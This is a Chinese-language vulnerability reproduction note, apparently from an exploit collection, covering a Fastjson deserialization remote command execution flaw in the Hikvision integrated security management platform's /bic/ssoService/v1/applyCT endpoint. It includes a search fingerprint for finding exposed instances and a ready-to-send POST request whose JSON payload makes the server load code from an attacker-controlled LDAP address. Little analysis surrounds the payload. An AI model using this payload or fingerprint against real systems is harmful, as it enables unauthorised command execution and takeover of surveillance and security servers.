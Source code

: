 # HIKVISION 综合安防管理平台 applyCT Fastjson远程命令执行漏洞

## 漏洞描述

HIKVISION 综合安防管理平台 applyCT 存在低版本Fastjson远程命令执行漏洞，攻击者通过漏洞可以执行任意命令获取服务器权限

## 漏洞影响

```
HIKVISION 综合安防管理平台
```

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](./images/202208241341481.png)

验证POC

```
POST /bic/ssoService/v1/applyCT 
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.xxx.xxx.xxx/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![image-20220824134503675](./images/202208241345726.png)